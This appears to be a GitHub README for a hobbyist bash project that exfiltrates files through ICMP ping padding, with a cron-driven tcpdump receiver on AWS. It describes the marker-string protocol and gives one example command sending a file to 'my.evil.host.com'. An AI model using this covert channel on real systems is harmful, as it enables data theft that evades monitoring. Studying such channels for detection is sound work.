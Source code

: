 # ping-exfil.sh
Just testing exfiltration through ping packets with bash. By no means anything complete, nor pretty nor expert level. Just some beginner's testing in bash.

This test set was running on a private VM (sender) and AWS EC2 (receiver)

Not safe at all, as you need access to ping on the sending side and tcpdump on the receiving end, running things as sudo etc.


########
#MANUAL#
########
##RECEIVER##
#1: create the cronfile on your AWS or whatever you're running the receiver on
#2: start rolling the cron
#3: cron launches beefpoller.sh which will pol for new packets. Packets of interest are recognized when containing the padding data:  
#   "beef15f00d1100FF"
#4: polling stops when the padding data contains:
#   "dead beef"
##SENDER##
#1: pinger.sh takes two arguments; first one being the file to exfiltrate and the second one is the host to exfiltrate data to:
#   ./pinger.sh topkek.txt my.evil.host.com
#2: converts the data to 16bit array, send the init packet containing the "beef15f00d1100FF", then the data 16bits at a time and finally
#the end of transmit packet containing "dead beef"

##Most likely an awful way of doing things, slow as *insertbadword* and amateurish. I take no resposibility nor give any warranties. ##Comments are always welcome.
